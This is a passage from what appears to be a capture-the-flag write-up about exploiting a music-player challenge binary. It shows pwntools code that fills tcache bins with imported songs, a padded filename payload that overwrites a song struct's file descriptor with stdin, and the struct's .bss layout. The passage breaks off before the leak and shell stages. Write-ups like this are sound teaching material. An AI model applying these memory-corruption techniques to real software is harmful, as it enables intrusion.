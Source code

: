 ```python=
	sh.sendlineafter("Choice: ","4")
	sh.sendline(id)
	if getsh == 0:
		sh.recvuntil("like to do today?")
```

We'll first import a roughly equal number of songs for each song that can fit the tcache bin, including the directories:

```python=
for i in range(0, 11): #ids 1-11 are rainbow-godzilla (767 bytes)
        imp("Rainbow/godzilla.txt")

for i in range(0, 11): #ids 12-22 is a directory (1 bytes)
        imp("Warrior")

for i in range(0, 11): #ids 23-33 is animal-animal (946 bytes)
        imp("Animal/animal.txt")

for i in range(0, 10): #ids 34-43 is Warrior-pastlive (829 bytes)
        imp("Warrior/pastlive.txt")
```

Next, we'll do our attack on the 44th song to import:

```python
badfile = "Warrior" + "/"*(0x18-len("Warrior"))
imp(badfile) #Number 44 now has stdin as file descriptor
```

Note: It is likely that we won't be needing to use all of these songs. However, having them in there doesn't hurt, and allows us to be flexible if we want to change our exploit plan of attack.

## Fighting for a leak
![](https://i.imgur.com/fZsqRqo.png)
(Source: me)

Recall that the each of the song structs in the .bss section had the following layout:

```clike=
struct song {
    char filename[0x18]; //0x404078 (fd_offset) - 0x404060 (song)
    uint64_t filedesc; //0x404080 (albumptr) - 0x404078 (fd_offset)
    char * albumptr; //0x404088 (songtitleptr) - 0x404080 (albumptr)
    char * songptr; //0x404090 (song_content_ptr) - 0x404088 (songtitleptr)
    char * songcontentptr;
}; //0x18 + 8 + 8 + 8 + 8 = 56 bytes in size

struct songs[50]; //where the songs are stored, aka. in the .bss
```

At this point, there are many ways to get an address leak and a shell, and this is where I went down many dead ends.
Here are some of them: 
